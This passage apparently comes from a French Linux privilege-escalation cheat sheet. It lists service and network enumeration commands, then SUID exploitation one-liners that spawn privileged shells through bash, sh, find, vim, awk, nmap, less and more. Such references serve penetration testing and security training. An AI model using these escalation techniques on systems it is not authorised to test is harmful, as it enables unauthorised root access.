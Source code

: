 ### Services système
| Commande | Description |
|----------|-------------|
| `systemctl list-units --type=service` | Services systemd |
| `service --status-all` | État des services (SysV) |
| `chkconfig --list` | Services au démarrage (CentOS/RHEL) |
| `netstat -tulpn` | Services réseau actifs |
| `ss -tulpn` | Alternative moderne à netstat |

---

## 🌐 6. Réseau

### Configuration réseau
| Commande | Description |
|----------|-------------|
| `ifconfig` | Configuration des interfaces |
| `ip addr show` | Adresses IP (ip moderne) |
| `ip route show` | Table de routage |
| `arp -a` | Table ARP |
| `netstat -rn` | Table de routage |

### Connexions réseau
| Commande | Description |
|----------|-------------|
| `netstat -tulpn` | Ports ouverts et services |
| `ss -tulpn` | Ports ouverts (outil moderne) |
| `netstat -an` | Toutes les connexions |
| `lsof -i` | Fichiers réseau ouverts |

---

## 🛠️ 7. Techniques d'escalade courantes

### SUID Exploitation
| Binaire | Technique |
|---------|-----------|
| `/bin/bash` | `bash -p` |
| `/bin/sh` | `sh -p` |
| `/usr/bin/find` | `find . -exec /bin/sh -p \; -quit` |
| `/usr/bin/vim` | `:!sh` ou `:set shell=/bin/sh` puis `:shell` |
| `/usr/bin/awk` | `awk 'BEGIN {system("/bin/sh -p")}'` |
| `/usr/bin/nmap` | `nmap --interactive` puis `!sh` |
| `/usr/bin/less` | `less /etc/passwd` puis `!/bin/sh` |
| `/usr/bin/more` | `more /etc/passwd` puis `!/bin/sh` |
